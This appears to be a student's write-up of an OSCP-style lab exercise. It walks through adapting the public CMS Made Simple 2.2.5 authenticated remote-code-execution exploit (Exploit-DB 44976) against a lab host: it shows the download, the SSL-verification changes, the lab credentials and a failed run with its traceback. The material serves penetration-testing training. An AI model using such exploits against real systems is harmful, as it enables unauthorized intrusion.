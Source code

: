 15.2.3.1

# 15.2.3.1
## 15.2.3.1.1. Connect to your dedicated Linux lab client and start the apache2 service; the target web application is located under **/var/www/https/**.

Connect to the Linux lab client
```plaintext
kali@kali:~$ rdesktop 192.168.214.44 -u root -p lab
Autoselecting keyboard map 'en-us' from locale
Connection established using plain RDP.
Sound(warning): rdpsnd_process_packet(), Unhandled opcode 0x27
Clipboard(error): xclip_handle_SelectionNotify(), unable to find a textual target to satisfy RDP clipboard text request
```

Start apache2 service
![db3be0d995f68475876e25b206a2a6ee.png](../../../_resources/9ced560c0227495c9a2fce001721b6bc.png)

Browse to the target application
![576e88bfa3e5ce23bb97c0f62f40b81e.png](../../../_resources/b6fb36a33ac144a7a62d3e9c19e87a10.png)

The landing page
![a0dea2fd899d7ec15189d530b7a27e8e.png](../../../_resources/d1861ab831cd4e8ab7ded5a757f85ec5.png)




## 15.2.3.1.2. Modify the original exploit and set the base_url variable to the correct IP address of your dedicated Linux lab client as well as the protocol to HTTPS.

Download the exploit
```
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ searchsploit -m 44976
  Exploit: CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution
      URL: https://www.exploit-db.com/exploits/44976
     Path: /usr/share/exploitdb/exploits/php/webapps/44976.py
File Type: ASCII text, with CRLF line terminators

Copied to: /home/kali/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms/44976.py
```

Change the IP to the Linux lab client and protocol to HTTPS
![a86999bb9b66796855227348c568a759.png](../../../_resources/03f4c0a5d38743e89f42919c2e834ab6.png)


## 15.2.3.1.3. Get familiar with the requests Python library and adjust your exploit accordingly to avoid SSL verification.
Here is confirmation that the code was changed
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ cat 44976_modified.py | grep "verify=False"
    response  = requests.post(url, data=data, allow_redirects=False, verify=False)
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
```



## 15.2.3.1.4. Edit the username and password variables to match the ones from our test case (username “admin”, password “HUYfaw763”).
![8b5f88b757d151213e680ce2138d2f55.png](../../../_resources/0786dd81561b4ddeba3d15778c3d953a.png)





## 15.2.3.1.5. Try to run the exploit against the Linux lab client, does it work? If not, try to explain why.

Running the exploit does not work. The output from `location.split(csrf_param + "=")[1]` is expecting a value in index 1, but there is no value to return

```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ python 44976_modified.py 
/home/kali/.local/lib/python2.7/site-packages/urllib3/connectionpool.py:988: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.214.44'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning,
[+] Authenticated successfully with the supplied credentials
Traceback (most recent call last):
  File "44976_modified.py", line 103, in <module>
    run()
  File "44976_modified.py", line 94, in run
    cookies,csrf_token = authenticate()
  File "44976_modified.py", line 38, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_modified.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```


